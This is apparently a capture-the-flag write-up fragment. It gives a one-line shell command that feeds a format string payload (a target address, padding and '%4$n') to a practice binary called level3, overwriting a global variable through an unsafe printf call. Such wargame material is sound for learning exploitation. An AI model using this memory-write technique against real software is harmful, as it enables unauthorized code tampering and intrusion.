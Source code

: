 ```shell
(python -c 'print "\x8c\x98\x04\x08" + 60 * "A" + "%4$n"'; cat -) | ./level3
```
Format string exploit using unsecure call to printf to set global `m` to 64.
